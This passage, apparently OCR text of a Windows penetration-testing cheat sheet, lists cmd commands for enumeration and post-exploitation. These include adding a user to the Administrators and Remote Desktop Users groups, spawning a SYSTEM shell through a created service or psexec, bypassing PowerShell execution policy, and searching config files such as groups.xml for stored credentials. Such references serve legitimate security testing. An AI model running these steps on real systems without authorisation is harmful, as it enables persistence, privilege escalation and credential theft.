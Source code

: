         runas /user:<UserName> program
        runas /noprofile /user:Administrator cmd 

        # delete dir with files
            rd /s /q dir
        # delete file
            del file

        # network
        netstat -ano
        route print
        arp -A
        net config Workstation
        netsh firewall show state / config

        # add user with group administrators
            net user /add <username> <password>
            net localgroup administrators <username> /add
            net localgroup "Remote Desktop Users" <username> /add

        # list drives
            wmic logicaldisk get caption

        # run as system (from admin)
            # on newer windows
                reg add HKLM\System\CurrentControlSet\Control\Windows /v NoInteractiveServices /d 0
                sc start ui0detect
            sc create cmdsvc binpath= "cmd /K start" type= own type= interact
            sc start cmdsvc

        # run as system 2 (from admin)
            psexec –i –s cmd.exe

        # powershell from cmd
        powershell -ExecutionPolicy ByPass -command "& { . C:\Users\Public\A.ps1; A }"
        ```

    * Admins in domain
    * Creds in config files (gpp)
        ```
        C:\>dir /b /s web.config
        unattend.xml
        groups.xml
        sysprep.inf/.xml - encrypted, but priv keys are known (https://msdn.microsoft.com/en-us/library/cc422924.aspx)
